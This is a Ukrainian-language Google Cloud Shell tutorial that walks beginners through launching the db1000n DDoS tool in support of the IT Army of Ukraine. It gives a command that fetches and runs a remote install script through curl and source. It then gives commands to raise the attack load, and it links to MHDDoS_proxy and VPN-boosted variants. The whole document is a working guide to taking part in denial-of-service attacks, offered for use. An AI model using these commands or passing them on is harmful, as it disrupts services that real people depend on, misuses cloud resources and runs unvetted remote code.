 
#   Все буде Україна! 💙💛

## Привіт друзі
Бажаю вам чудового настною та гарного дня!

### Запуск «Death by 1000 needles» (db1000n)

- Для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі.
  Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною  ***після закінчення даного сеансу***.

###  Зверніть увагу   
Якщо з'єднання перервано не підключайтесь вдруге бо вийдете з **ефемерного режиму**. Краще ***завантажтесь знову***, натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&tutorial=tutorial.md&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

Щоб перейти до запуску **db1000n** натисніть кнопку **START**

 ## Давайте почнемо
-  Для запуска «Death by 1000 needles» (db1000n) скопіюйте команду розташовану нижче та натисніть клавішу **ENTER**
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```

-   Якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши **Ctrl+C** та запустіть команду зі збілшеним навантаженням розташовану нижче
```bash
./db1000n --scale 0.7
```
-   або наступну команду з ще більшим навантаженням
```bash
./db1000n
```
### Щоб переглянути навантаження на процесор використаємо команду **htop**
-   Додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та виконайте наступну команду
```bash
htop -F ./db
```

## **Пропоную для ознайомлення:**

* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)
* Інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
* Офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
